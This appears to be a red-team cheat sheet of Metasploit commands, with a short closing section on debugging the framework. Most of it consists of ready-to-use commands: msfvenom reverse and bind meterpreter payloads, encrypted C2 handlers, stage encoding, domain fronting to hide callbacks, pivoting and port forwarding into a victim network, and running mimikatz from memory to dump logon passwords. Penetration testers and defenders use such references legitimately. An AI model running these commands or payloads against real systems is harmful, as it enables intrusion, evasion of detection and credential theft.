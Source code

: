 # Metasploit

* [https://buffered.io/posts/staged-vs-stageless-handlers/](https://buffered.io/posts/staged-vs-stageless-handlers/)
* [https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/)
* [https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation](https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation)
* [https://xakep.ru/2020/07/03/metasploit-guide/](https://xakep.ru/2020/07/03/metasploit-guide/)
* [https://diablohorn.com/2013/02/21/we-bypassed-antivirus-how-about-idsips/](https://diablohorn.com/2013/02/21/we-bypassed-antivirus-how-about-idsips/)




## Cheatsheet

Quick handler launch:

```
msf > handler -H eth0 -P 443 -p windows/x64/meterpreter/reverse_https [-e x64/xor] [-x]
```

Bind RC4 payload & handler through SOCKS proxy:

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 RHOST=10.10.13.37 LPORT=443 RC4PASSWORD='Passw0rd!' -f exe -o rev.exe
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/bind_tcp_rc4
msf exploit(multi/handler) > set RHOST 192.168.1.11
msf exploit(multi/handler) > set LPORT 443
msf exploit(multi/handler) > set RC4PASSWORD Passw0rd!
msf exploit(multi/handler) > set PROXIES socks5:127.0.0.1:1080
msf exploit(multi/handler) > run
```

Generate a custom SSL certificate for encrypting C2 communications:

```
$ openssl req -batch -new -newkey rsa:4096 -days 365 -nodes -x509 -keyout cert.key -out cert.crt
$ cat cert.key cert.crt > cert.pem
$ msfvenom -p ... HandlerSSLCert=./cert.pem StagerVerifySSLCert=true ...
msf exploit(multi/handler) > set HandlerSSLCert /home/snovvcrash/cert.pem
msf exploit(multi/handler) > set StagerVerifySSLCert true
```

Automation (about `exploit` flags [here](https://github.com/rapid7/metasploit-framework/blob/4049c41ac1b6f12566b055dc5442192072ea5d78/lib/msf/ui/console/command_dispatcher/exploit.rb#L17-L27)):

{% code title="auto.rc" %}
```
// sudo msfconsole -qr auto.rc
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_winhttps
set LHOST 10.10.13.37
set LPORT 443
set EXITFUNC thread
set StageEncoder x64/zutto_dekiru
set EnableStageEncoding true
set HandlerSSLCert /home/snovvcrash/cert.pem
set StagerVerifySSLCert true
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -jz
```
{% endcode %}

Start SOCKS server (default is SOCKS5):

```
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf auxiliary(server/socks_proxy) > run -j
```

Handle connections with **domain fronting**:

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=legitimate.com LPORT=443 HttpHostHeader=cdn.provider.net -f exe -o https.exe
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
msf exploit(multi/handler) > set LHOST legitimate.com
msf exploit(multi/handler) > set OverrideLHOST legitimate.com
msf exploit(multi/handler) > set OverrideRequestHost true
msf exploit(multi/handler) > set HttpHostHeader cdn.provider.net
msf exploit(multi/handler) > run
```



### meterpreter

Migrate to a different architecture:

```
msf > use post/windows/manage/archmigrate
msf post(windows/manage/archmigrate) > set SESSION 1
msf post(windows/manage/archmigrate) > run
```

Switch to the next [transport](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Transport-Control) killing current session:

```
meterpreter > transport add -t reverse_tcp -l 10.10.13.37 -p 9002
meterpreter > transport list
msf > handler -H eth0 -P 9002 -p windows/x64/meterpreter/reverse_tcp
meterpreter > transport next
```

Reverse local port `3389` (on Victim, `192.168.1.11`) to local port `43389` (on Attacker):

```
meterpreter > portfwd add -l 43389 -p 3389 -r 192.168.1.11
[*] Local TCP relay created: :43389 <-> 192.168.1.11:3389
$ xfreerdp /u:administrator /p:'Passw0rd!' /v:127.0.0.1:43389
```

Routing:

```
meterpreter > run autoroute -s 192.168.10.0/24
meterpreter > run autoroute -p
Or
msf5 > route add 192.168.10.0/24 1
msf5 > route
```

Execute binary from memory:

```
meterpreter > execute -cimH -d calc.exe -f /home/snovvcrash/www/mimikatz.exe -a '"sekurlsa::logonPasswords full" "exit"'
```




## Debug

* [https://github.com/deivid-rodriguez/pry-byebug](https://github.com/deivid-rodriguez/pry-byebug)
* [https://youtu.be/QzP5nUEhZeg?t=2190](https://youtu.be/QzP5nUEhZeg?t=2190)

```
$ gem install pry-byebug
$ vi ~/.pry-byebug
```

{% code title="pry-byebug" %}
```ruby
if defined?(PryByebug)
  Pry.commands.alias_command 'c', 'continue'
  Pry.commands.alias_command 's', 'step'
  Pry.commands.alias_command 'n', 'next'
  Pry.commands.alias_command 'f', 'finish'
end

 # Hit Enter to repeat last command
Pry::Commands.command /^$/, "repeat last command" do
  _pry_.run_command Pry.history.to_a.last
end
```
{% endcode %}

```
$ cp -r /usr/share/metasploit-framework/ /opt
$ vi /opt/metasploit-framework/msfconsole
...add "require 'pry-byebug'"...
$ mkdir -p ~/.msf4/modules/exploits/linux/http/
$ cp /usr/share/metasploit-framework/modules/exploits/linux/http/packageup.rb ~/.msf4/modules/exploits/linux/http/p.rb
$ vi ~/.msf4/modules/exploits/linux/http/p.rb
...add "binding.pry"...
```

